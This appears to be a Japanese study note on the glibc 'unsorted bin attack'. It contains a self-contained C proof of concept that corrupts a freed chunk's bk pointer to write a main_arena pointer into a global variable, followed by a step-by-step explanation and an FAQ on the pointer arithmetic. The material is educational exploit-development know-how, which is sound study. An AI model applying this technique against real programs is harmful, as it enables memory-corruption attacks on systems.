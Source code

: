 ## Unsorted bin attack

以下のソースコードをtcacheが有効になっていないlibc(libc-2.23.soのubuntu16.04.6など)を使用してソースコードを実行

<details>
  
```
  
#include <stdio.h>
#include <stdlib.h>

unsigned long remissions;

int main(void)
{

        puts("So we will be covering an unsorted bin attack.");
        puts("The unsorted bin is a doubly linked list.");
        puts("This attack will allow us to write a pointer to the address of our choosing.");
        puts("While this attack really doesn't give us much control over what we write, we can count on it being a ptr (which will probably be a 'large' integer)");
        puts("Let's get started.\n");

    printf("So our goal will be to overwrite the value of the 'remissions' global variable.\n");
    printf("It is at the bss address: \t%p\n", &remissions);
    printf("With the value: \t\t%0lx\n\n", remissions);

    printf("We will start by allocating two chunks. One to insert into the unsorted bin.\n");
    printf("The other to prevent consolidation with the top chunk.\n");

        unsigned long *ptr0 = malloc(0xf0);
    unsigned long *ptr1 = malloc(0x10);

        printf("We have allocated our first chunk at:\t%p\n", ptr0);

        printf("Now let's free it to insert it into the unsorted bin.\n\n");

        free(ptr0);

        printf("Now that it has been inserted into the unsorted bin, we can see it's fwd and bk pointers.\n");

    printf("fwd:\t0x%lx\n", ptr0[0]);
    printf("bk:\t0x%lx\n\n", ptr0[1]);

    printf("Now when a chunk gets removed from the unsorted bin, a pointer to gets written to it's back chunk.\n");
    printf("Specifically a pointer will get written to bk + 0x10 on x64 (bk + 0x8 for x86).\n");
    printf("That is where we get our ptr write from.\n\n");

    printf("So by using a bug, we can edit the bk pointer of the freed chunk to point to remissions - 0x10.\n");
    printf("That way when the chunk leaves the unsorted bin, the pointer will be written to remissions.\n\n");

    ptr0[1] = (unsigned long)(&remissions - 0x2);

    printf("The current fwd and bk pointers after the write.\n");
    printf("fwd:\t0x%lx\n", ptr0[0]);
    printf("bk:\t0x%lx\n\n", ptr0[1]);


    printf("Now we allocate a new chunk of the same size to remove our freed chunk from the unsorted bin.");
    printf("This will trigger the write to remissions, which has a current value of 0x%lx\n", remissions);

    malloc(0xf0);

    printf("Now we can see that the value of remissions has changed.\n");
    printf("remissions:\t0x%lx\n", remissions);

}

```

</details>

### 概要

このプログラムは以下のステップで「Unsorted Bin Attack」を実演しています：  
  
セットアップ：  
グローバル変数 remissions が宣言されています。これが攻撃のターゲットです。  
プログラムはこの変数のアドレスと初期値を表示します。  
  
  
メモリ割り当て：  
ptr0 = malloc(0xf0) で0xf0バイトのメモリブロックを割り当てます。  
ptr1 = malloc(0x10) で小さなブロックを割り当てます（これはトップチャンクとの結合を防ぐため）。  
  
  
Unsorted Binへの挿入：  
free(ptr0) でptr0を解放し、Unsorted Binに挿入します。  
Unsorted Binは双方向リンクリストなので、解放されたチャンクにはforward（fwd）とbackward（bk）ポインタが含まれます。  
  
  
脆弱性の悪用：  
ptr0[1] = (unsigned long)(&remissions - 0x2) で解放済みのptr0のbkポインタを改ざんします。  
具体的には、remissionsのアドレスから0x10（x64では）を引いた値を指すように設定します。  
  
  
攻撃のトリガー：  
malloc(0xf0) で新しいチャンクを割り当てます。  
このとき、Unsorted Binから解放済みのチャンクが取り出され、bkポインタにはリンクリスト管理用のポインタが書き込まれます。  
改ざんしたbkポインタにより、この書き込みが remissions 変数に起こります。  
  
  
結果：  
remissions の値がメインアリーナへのポインタ（大きな値）に変更されています。  
  
  
重要なポイント  
  
Unsorted Binは、glibc malllocの実装で使用される双方向リンクリストです。  
解放されたチャンクがUnsorted Binから取り出されるとき、メモリ管理のためのポインタ更新が行われます。  
このコードはbkポインタを改ざんすることで、本来書き込まれるべきではない場所（remissions変数）にポインタが書き込まれるようにしています。  
この攻撃の結果、任意のメモリ位置に予測可能な値（通常は大きなポインタ値）を書き込むことができます。  

この技術は、実際のセキュリティ脆弱性の例示であり、教育目的で示されています。このような手法は、メモリ破壊バグを利用して攻撃者がシステムを侵害する方法の一例です。


### FAQ
  
Q.  
ptr0[1] = (unsigned long)(&remissions - 0x2)についてですが  
・unsortedbinに挿入されたptr0を操作することができるということでしょうか？  
・ptr0[1]というのはbkということでしょうか？  
・なぜ(unsigned long)(&remissions - 0x2)なのでしょうか？  
・なぜremissionsのアドレスから0x10（x64では）を引いた値を指すように設定なのでしょうか?  
  
  
A.  
ptr0を操作できる理由  
はい、unsorted binに挿入された（解放された）ptr0を操作できます。これは重要なセキュリティの問題点です。  
通常、メモリがfree()された後にそのメモリを参照・操作することは「use-after-free」と呼ばれるバグですが、このコードでは教育目的でこの問題を意図的に引き起こしています。  
実際の攻撃シナリオでは、何らかのプログラム上の脆弱性（バッファオーバーフローなど）を使って解放済みのメモリを操作します。  
ptr0[1]とbkの関係  
正確です。ptr0[1]はbkポインタを指しています。C言語でポインタ配列を扱う場合、ptr0[0]は最初の要素、ptr0[1]は2番目の要素になります。unsorted binに挿入されたチャンクの場合：  
  
ptr0[0] = 前方リンク（fwd）ポインタ  
ptr0[1] = 後方リンク（bk）ポインタ  
  
これらのポインタはunsorted binの双方向リンクリストを管理するために使われます。  
(unsigned long)(&remissions - 0x2)の意味  
これには2つのポイントがあります：  
  
&remissionsはremissions変数のメモリアドレスを取得しています  
-0x2は64ビットシステム（x64）では実質的に「-0x10バイト」を意味します  
  
なぜ「-0x2」なのかというと、このコードではunsigned long型のポインタを使っているため、アドレス計算が「要素単位」で行われます。  
x64システムではunsigned longは8バイト（64ビット）なので：  
  
-0x2は「2つのunsigned long要素分」だけ前に移動する  
2 × 8バイト = 16バイト = 0x10バイト  
  
つまり、(unsigned long)(&remissions - 0x2)は「remissionsのアドレスより16バイト（0x10）前のアドレス」を意味します。  
なぜremissionsのアドレスから0x10を引くのか  
コードのコメントにある通り：  
```
printf("Specifically a pointer will get written to bk + 0x10 on x64 (bk + 0x8 for x86).\n");
```

unsorted binからチャンクが取り出される際、メモリ管理システムはbkポインタが指すアドレスから0x10バイト先に特定のポインタ値を書き込みます。  
攻撃者の目的は「remissions変数にポインタを書き込む」ことなので、書き込み先がちょうどremissionsになるように逆算すると：  
  
書き込み先 = bkポインタの値 + 0x10  
remissions = bkポインタの値 + 0x10  
bkポインタの値 = remissions - 0x10  
  
この計算が「ptr0[1] = (unsigned long)(&remissions - 0x2)」という操作に反映されています。  
つまり、この操作によって、次回unsorted binからチャンクが取り出される際に、メモリ管理システムがbk + 0x10（つまりremissions）にポインタを書き込むように仕向けています。  
これがunsorted bin attackの本質です。  
→つまり、この攻撃によって次回unsorted binにポインタが書き込まれることでlibc leakに繋がる
